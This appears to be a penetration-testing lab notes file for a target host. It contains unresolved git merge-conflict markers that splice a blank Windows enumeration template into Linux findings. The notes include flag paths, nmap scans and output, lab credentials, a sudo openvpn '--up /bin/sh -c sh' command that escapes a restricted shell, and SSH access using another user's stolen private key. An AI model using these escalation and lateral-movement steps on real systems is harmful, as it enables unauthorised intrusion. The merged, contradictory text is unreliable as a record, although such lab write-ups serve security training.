 # 192.168.x.122
# Summary
- 
# Flag Location
<<<<<<< HEAD
`Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include local.txt,proof.txt`
- 
# Accounts
### ???
`<access command>`
```

```
# Enumeration
## NMAP
`sudo nmap -sV 192.168.159.122 --top-ports 1000`
=======
`sudo find / -type f -iname "local.txt" 2>/dev/null`    
`sudo find / -type f -iname "proof.txt" 2>/dev/null`
- /home/offsec/local.txt
- /root/proof.txt
# Accounts
### offsec / password
`<ssh offsec@192.168.213.122>`
```
restricted shell
```
# Enumeration
## NMAP
`sudo nmap -sV 192.168.159.122 --top-ports 1000`    
>>>>>>> e06fa5ee92d068eeeeae2a07004803d05ab415ed
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
<<<<<<< HEAD
=======
`sudo nmap -A -T4 -p- 192.168.213.122`
```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:f9:e1:44:6a:40:bc:90:e0:3f:1d:d8:86:bc:a9:3d (ECDSA)
|_  256 24:97:84:f2:58:53:7b:a3:f7:40:e9:ad:3d:12:1e:c7 (ED25519)
1194/tcp open  openvpn?
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 587/tcp)
HOP RTT      ADDRESS
1   83.07 ms 192.168.45.1
2   83.05 ms 192.168.45.254
3   88.40 ms 192.168.251.1
4   88.47 ms 192.168.213.122
```
>>>>>>> e06fa5ee92d068eeeeae2a07004803d05ab415ed
## Local Users
`Get-LocalUser`
```

```
## Local Groups
`Get-LocalGroup`
```
```
## System Info
`systeminfo`
```

```
## Routes
`route print`
```
```
## Netstat
`netstat -ano`
```
```
## Environment Vars
`Get-ChildItem Env:`
```
```
## Domain Controller Info
`nltest /dsgetdc:secura`
```
```
# Services    


## Command History
```c
<<<<<<< HEAD

=======
    sudo -l
    gtfobins.github.io
    search openvpn

    // break out of restricted shell
    sudo openvpn --dev null --script-security 2 --up '/bin/sh -c sh'

    //find id_rsa under /home/mario/.ssh
    ssh -i /home/mario/.ssh/id_rsa mario@172.16.152.14
>>>>>>> e06fa5ee92d068eeeeae2a07004803d05ab415ed
```